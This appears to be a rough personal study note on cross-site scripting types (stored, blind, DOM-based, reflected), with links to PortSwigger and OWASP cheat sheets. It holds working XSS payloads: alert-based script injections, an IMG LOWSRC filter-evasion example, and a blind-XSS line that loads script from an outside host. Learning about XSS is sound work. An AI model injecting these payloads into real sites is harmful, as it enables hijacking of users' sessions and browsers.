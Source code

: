 # looking at every single XSS attack

## Stored XSS

Payload is sent to the server then the payload is being called

## payload

```javascript
"> <script>alert(0)</script>
```

## Blind XSS

A type of stored xss

It pops up in a page you cant see, 
uses XSS hunter

```javascript
"><script src=https://insider.css.ht></script>
```

## DOM based XSS

```
?%27><script>alert(0)</script>

 ```

 ## Reflected
 

##Cheatsheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#waf-bypass-global-objects


https://portswigger.net/web-security/cross-site-scripting/dom-based

print, alert etc

blancing th escript, basically look at what was taken in as value and then use it for exploitation

 https://www.youtube.com/watch?v=OAS3ku6gFWs

instaed of alert, we can also use
>prompt

# OWASP Cheatsheet

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

<IMG LOWSRC="javascript:alert('XSS')">

DOm xss put variables in th eurl

